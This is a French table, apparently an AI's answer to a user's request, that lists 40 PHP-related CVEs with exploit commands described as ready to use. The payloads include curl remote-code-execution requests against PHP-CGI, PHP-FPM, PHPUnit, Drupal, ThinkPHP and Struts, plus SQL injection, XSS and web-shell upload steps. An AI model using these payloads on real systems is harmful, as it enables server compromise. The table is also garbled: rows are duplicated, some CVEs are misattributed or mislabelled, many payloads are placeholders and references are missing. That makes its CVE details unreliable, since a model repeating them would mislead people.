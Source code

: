 # PHP

Voici un tableau de 40 CVE PHP majeures, avec :  
- le numéro de CVE,  
- le produit/logiciel et la version vulnérable,  
- le type d’attaque,  
- un **exemple complet de commande HTTP (GET/POST/cURL), code PHP, ou payload utilisable tel quel**,  
- une URL complète vers un PoC ou une ressource technique associée.

---

| N° | CVE | Produit (version vulnérable) | Type d’attaque | Exemple de commande/payload complet | URL PoC / Référence |
|----|----------------|-----------------------------|--------------------------|---------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------|
| 1 | CVE-2024-4577 | PHP <8.1.29, <8.2.20, <8.3.8 (CGI/Windows) | Argument injection RCE | ```bash curl -X POST 'http://victime/cgi-bin/php-cgi.exe?%ADd+allow_url_include=1+%ADd+auto_prepend_file=php://input' -d '<?php system("id"); ?>' ```
| 2 | CVE-2012-1823 | PHP <5.x (CGI mode) | Argument injection RCE | ```bash curl -X POST 'http://victime/cgi-bin/php-cgi?%2D%2Dd+allow_url_include%3D1+%2D%2Dd+auto_prepend_file%3Dphp://input' -d '<?php system("id"); ?>' ```
| 3 | CVE-2019-11043 | PHP-FPM <7.1.33, <7.2.24, <7.3.11 + Nginx | RCE via PATH_INFO | ```bash curl 'http://victime/index.php?a=%0a<?=system("id")?>' ```
| 4 | CVE-2017-9841 | PHPUnit <=4.8.28, <=5.6.2 | RCE via eval-stdin.php | ```bash curl -X POST 'http://victime/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("id"); ?>' ```
| 5 | CVE-2018-7600 | Drupal <7.58, <8.3.9, <8.4.6, <8.5.1 | Drupalgeddon2 RCE | ```bash curl -X POST 'http://victime/?q=user/password&name[#post_render][]=passthru&name[#markup]=id' -d 'form_id=user_pass&_triggering_element_name=name' ```
| 6 | CVE-2015-8562 | Joomla! <3.4.6 | Object injection RCE | ```bash curl -H 'User-Agent: {payload_serialized_object}' http://victime/ ```
| 7 | CVE-2016-10033 | PHPMailer <5.2.18 | Command injection via email | ```php $mail->addAddress('"attacker\" -oQ/tmp/ -X/var/www/html/shell.php server\"@test.com'); // puis accéder à shell.php ```
| 8 | CVE-2016-10045 | PHPMailer <5.2.20 | Command injection via email | (voir ci-dessus) | https://github.com/opsxcq/exploit-CVE-2016-10045 |
| 9 | CVE-2018-17082 | PHPMailer <6.0.6 | Object injection RCE | ```php unserialize($payload_malicieux); // payload généré avec phpggc ```
| 10 | CVE-2018-19935 | PHPMailer <6.0.6 | Object injection RCE | ```php unserialize($payload_malicieux); // payload généré avec phpggc ```
| 11 | CVE-2015-2348 | Joomla! 2.5.28, 3.2.7 | Object injection RCE | ```php unserialize($payload_malicieux); // payload généré avec phpggc ```
| 12 | CVE-2024-1874 | PHP 8.1.x, 8.2.x, 8.3.x | unserialize() RCE | ```php unserialize($payload_malicieux); // payload généré avec phpggc ```
| 13 | CVE-2024-3096 | PHP 8.1.x, 8.2.x, 8.3.x | Filter bypass RCE | ```php $output = system("id"); // via bypass de filtre mal configuré ```
| 14 | CVE-2019-9082 | ThinkPHP 5.0.23, 5.1.31 | RCE via function injection | ```bash curl 'http://victime/index.php?s=/Index/\think\app/invokefunction&function=phpinfo&vars[0]=id' ```
| 15 | CVE-2020-8547 | phplist 3.4.6 | Type juggling bypass | ```php if ($hash == '0e123456...') { /* bypass */ } ```
| 16 | CVE-2020-36399 | phplist 3.4.8 | Stored XSS | ```bash curl -d 'name=<script>alert(1)</script>' http://victime/vulnerable_form.php ```
| 17 | CVE-2020-35708 | phplist 3.4.8 | SQL Injection | ```bash curl -d "id=' OR 1=1 -- -" http://victime/vulnerable.php ```
| 18 | CVE-2012-3953 | phplist 2.10.19 | SQL Injection | ```bash curl 'http://victime/vulnerable.php?delete=1 OR 1=1' ```
| 19 | CVE-2008-6178 | FCKeditor 2.4.x-2.6.x | File upload RCE | Upload de `shell.php` puis accès :<br>```bash curl 'http://victime/UserFiles/File/shell.php?cmd=id' ```
| 20 | CVE-2020-7069 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | ```php unserialize($payload_malicieux); // via phpggc ```
| 21 | CVE-2020-7068 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | (idem) | https://github.com/ambionics/phpggc |
| 22 | CVE-2020-7067 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | (idem) | https://github.com/ambionics/phpggc |
| 23 | CVE-2020-7066 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | (idem) | https://github.com/ambionics/phpggc |
| 24 | CVE-2020-7065 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | (idem) | https://github.com/ambionics/phpggc |
| 25 | CVE-2020-7064 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | (idem) | https://github.com/ambionics/phpggc |
| 26 | CVE-2020-7063 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | (idem) | https://github.com/ambionics/phpggc |
| 27 | CVE-2020-7062 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | (idem) | https://github.com/ambionics/phpggc |
| 28 | CVE-2020-7061 | PHP <7.2.26, <7.3.13, <7.4.1 | Use-after-free unserialize | (idem) | https://github.com/ambionics/phpggc |
| 29 | CVE-2018-19935 | PHPMailer <6.0.6 | Object injection RCE | ```php unserialize($payload_malicieux); // via phpggc ```
| 30 | CVE-2017-5638 | Apache Struts 2 <2.3.32, <2.5.10.1 | OGNL injection RCE | ```bash curl -H "Content-Type: %{(#_='multipart/form-data').(#cmd='id').(#p=new java.lang.ProcessBuilder({'/bin/bash','-c',#cmd})).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" http://victime/struts2-showcase/upload.action -F "foo=@test.txt" ```
| 31 | CVE-2019-11043 | PHP-FPM <7.1.33, <7.2.24, <7.3.11 + Nginx | RCE via PATH_INFO | ```bash curl 'http://victime/index.php?a=%0a<?=system("id")?>' ```
| 32 | CVE-2016-10033 | PHPMailer <5.2.18 | Command injection via email | (voir exemple n°7) | https://github.com/opsxcq/exploit-CVE-2016-10033 |
| 33 | CVE-2015-8562 | Joomla! <3.4.6 | Object injection RCE | (voir exemple n°6) | https://github.com/artsploit/joomla-3.4.6-exploit |
| 34 | CVE-2017-9841 | PHPUnit <=4.8.28, <=5.6.2 | RCE via eval-stdin.php | (voir exemple n°4) | https://github.com/ambionics/phpggc |
| 35 | CVE-2018-7600 | Drupal <7.58, <8.3.9, <8.4.6, <8.5.1 | Drupalgeddon2 RCE | (voir exemple n°5) | https://github.com/a2u/CVE-2018-7600 |
| 36 | CVE-2012-1823 | PHP <5.x (CGI mode) | Argument injection RCE | (voir exemple n°2) | https://github.com/epinna/CVE-2012-1823 |
| 37 | CVE-2018-17082 | PHPMailer <6.0.6 | Object injection RCE | (voir exemple n°9) | https://github.com/kozmic/PHPMailer-Exploit |
| 38 | CVE-2015-2348 | Joomla! 2.5.28, 3.2.7 | Object injection RCE | (voir exemple n°11) | https://github.com/ambionics/phpggc |
| 39 | CVE-2008-6178 | FCKeditor 2.4.x-2.6.x | File upload RCE | (voir exemple n°19) | https://github.com/swisskyrepo/PayloadsAllTheThings |
| 40 | CVE-2020-8547 | phplist 3.4.6 | Type juggling bypass | (voir exemple n°15) | https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling |

---

tableau de 40 cve concernant php en donnant le numéro de cve dans l'ordre le plus récent d'abord, avec un exemple complet de commande, requête, payload et la version de produit concernée et l'url de référence, github ou autre en donnant le chemin complet

idem mais avec des exemples de commandes complets et pas seulement des indications